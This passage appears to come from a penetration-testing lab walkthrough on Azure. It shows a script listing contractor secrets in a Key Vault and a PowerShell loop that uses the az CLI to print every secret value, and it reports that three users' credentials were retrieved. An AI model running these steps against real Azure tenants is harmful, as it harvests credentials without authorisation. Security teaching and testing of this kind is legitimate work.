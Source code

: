 
The below output indicates that the **`ext-contractors`** vault contains **secrets**, and in addition to secrets, **keys** and **certificates** may also be stored in the same Key Vault. Azure Key Vault is designed to securely store **secrets**, **encryption keys**, and **certificates**, so it’s common to find all three types of data objects within a single vault.


> Also take note that, Contractor and consultant accounts often have high privileges due to their temporary nature, making them prime targets for penetration testers and red teamers.


```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> ./keyvaultenum.ps1                                                    

Secrets in vault ext-contractors
https://ext-contractors.vault.azure.net/secrets/alissa-suarez
https://ext-contractors.vault.azure.net/secrets/josh-harvey
https://ext-contractors.vault.azure.net/secrets/ryan-garcia
Keys in vault ext-contractors
```


![](https://i.imgur.com/NceHRQA.png)


We then need to see what we have in each of this Key Vault entries, Also make sure to replace the `$VaultName`, `$SecretNames` and `$SubscriptionID` in an engagement to get valid output.

```powershell
# Set variables
$VaultName = "ext-contractors"
$SecretNames = @("alissa-suarez", "josh-harvey", "ryan-garcia")

# Set the current Azure subscription
$SubscriptionID = "ceff06cb-e29d-4486-a3ae-eaaec5689f94"
az account set --subscription $SubscriptionID

# Retrieve and output the secret values
Write-Host "Secret Values from vault $VaultName"
foreach ($SecretName in $SecretNames) {
    $secretValueJson = az keyvault secret show --name $SecretName --vault-name $VaultName -o json
    $secretValue = ($secretValueJson | ConvertFrom-Json).value
    Write-Host "$SecretName - $secretValue"
}
```


As shown below the credentials for the three users where retrieved ;


![](https://i.imgur.com/xMzOeFv.png)



It is also possible to enumerate all of this via the "**Azure Portal**" By clicking "All resources" on the portal or using the search bar with the specified search term.

